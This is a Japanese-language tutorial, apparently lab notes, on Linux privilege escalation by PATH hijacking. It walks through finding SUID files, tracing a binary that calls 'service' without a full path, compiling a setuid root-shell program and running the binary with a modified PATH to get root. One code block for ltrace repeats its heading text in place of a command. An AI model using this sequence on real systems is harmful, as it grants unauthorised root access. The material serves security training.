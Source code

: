 PATH 環境変数  
PATH 環境変数には、シェルがプログラムを検索しようとするディレクトリのリストが含まれています。 
プログラムが別のプログラムを実行しようとしたときに、完全な (絶対) パスではなくプログラム名のみを指定した場合、シェルは PATH ディレクトリが見つかるまで検索します。   
ユーザーは自分の PATH 変数を完全に制御できるため、書き込み可能なディレクトリ内のプログラムを最初に探すようにシェルに指示できます。    
プログラムが別のプログラムを実行しようとすると、そのプログラムの名前が実行可能ファイルに文字列として埋め込まれている可能性があります。   
実行可能ファイルで文字列を実行して、文字列を見つけることができます。   
strace を使用して、プログラムがどのように実行されているかを確認することもできます。   
ltrace と呼ばれる別のプログラムも役立つ場合があります。   

ファイルに対して文字列を実行する。
```
$ strings /path/to/file
```
コマンドに対してstraceを実行する。
```
$ strace -v -f -e execve <command> 2>&1 | grep exec
```
コマンドに対してltraceを実行する。
```
コマンドに対してltraceを実行する。
```
# Privilege Escalation
1. ターゲット上のSUID/SGIDファイルの検索
```
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;
2> /dev/null
...
-rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env
...
```
suid-env ファイルは、root ユーザー権限で実行する必要があります。   
2. SUIDファイルに対して文字列を実行します。   
```
$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
...
service apache2 start
```
このファイルは、フルパスなしでサービスプログラムを実行しようとしている可能性があります。   
3. straceで確認することができます。  
```
$ strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
[pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],
...
```
4. オプションで、ltraceで検証することも可能です。
```
$ ltrace /usr/local/bin/suid-env 2>&1 | grep service
system("service apache2 start"
```
これにより、サービスプログラムの実行にシステム機能が使用されていることがわかります。   
5. 次の内容でファイルservice.cを作成します。
```
int main() {
setuid(0);
system("/bin/bash -p");
}
```
6. service.cをコンパイルしてserviceというファイルにします。  
```
$ gcc -o service service.c
```
7. PATH変数にカレントディレクトリ（または新しいサービスの実行ファイルがある場所）をプリペンドし、ルートシェル用のSUIDファイルを実行します。  
```
$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root) ...
```
